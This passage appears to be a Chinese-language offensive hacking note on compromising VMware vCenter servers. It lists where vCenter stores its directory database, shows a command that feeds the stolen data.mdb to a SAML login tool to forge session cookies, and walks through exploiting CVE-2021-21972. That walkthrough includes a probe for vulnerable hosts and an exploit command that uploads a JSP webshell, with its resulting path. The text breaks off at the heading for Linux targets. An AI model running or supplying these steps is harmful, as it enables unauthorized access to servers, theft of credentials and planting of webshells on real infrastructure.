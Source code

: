 db数据库存放位置

    
    
    数据库存放路径  
    Windows vCenter：C:/ProgramData/VMware/vCenterServer/data/vmdird/data.mdb  
    Linux vCenter：/storage/db/vmware-vmdir/data.mdb

拖到本地利用：vcenter_saml_login  
配置cmd代理，利用netch到本地127.0.0.1:1080

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152847.png)

    
    
    python3vcenter_saml_login.py-pdata.mdb-t1*.***.**.***

修改cookie进行连接

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152848.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152841.png)

CVE-2021-21972

影响范围

  * vCenter Server7.0 < 7.0.U1c  

  * vCenter Server6.7 < 6.7.U3l  

  * vCenter Server6.5 < 6.5.U3n

    
    
    /ui/vropspluginui/rest/services/uploadova

访问上面的路径，如果404，则代表不存在漏洞，如果405 则可能存在漏洞。

 **1.windows机器：**

漏洞利用：https://github.com/horizon3ai/CVE-2021-21972

    
    
    python CVE-2021-21972.py -t x.x.x.x -p c:\\ProgramData\VMware\vCenterServer\data\perfcharts\tc-instance\webapps\statsreport\gsl.jsp -o win -f gsl.jsp  
      
    -t （目标地址）  
    -f （上传的文件）  
    -p （上传后的webshell路径，默认不用改）

上传后路径

    
    
    https://x.x.x.x/statsreport/gsl.jsp  
    C:/ProgramData/VMware/vCenterServer/data/perfcharts/tc-instance/webapps/statsreport

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20221207152850.png)

 **2\. linux机器**
